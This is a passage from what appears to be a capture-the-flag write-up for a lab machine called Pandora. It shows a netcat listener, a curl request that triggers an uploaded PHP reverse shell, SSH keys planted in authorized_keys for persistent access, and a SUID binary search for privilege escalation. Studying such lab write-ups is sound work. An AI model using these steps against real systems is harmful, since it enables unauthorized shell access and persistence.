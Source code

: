 Now I can set up my listener
`nc -lvnp 1234`

Then curl the page
`curl http://localhost:32000/pandora_console/images/php-reverse-shell.php`

And we have a shell as Matt!

```
$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```

# Priv Esc

To obtain easier access to the machine I put my public ssh key on the box. I had to `chmod 600` the `authorized_keys`. On most distros if the authorized\_key file is specified in the sshd\_config, then it will automatically apply the perms, but on this one it did not

```
$ ssh-keygen
[.........]

$ cd /home/matt/.ssh                                                          
$ ls                                                                          
id_rsa                                                                        
id_rsa.pub                                                                    
$ touch authorized_keys                                                       
$ echo "YOUR ID_RSA.PUB" > authorized_keys
$ chmod 600 authorized_keys

#Now on kali
┌──(root💀kali)-[~]
└─ ssh matt@10.129.251.233 
[.........]
tt@pandora:~$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt) 
```

Looking for SUID binaries I found a interesting one called `/usr/bin/pandora_backup`

```
matt@pandora:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```
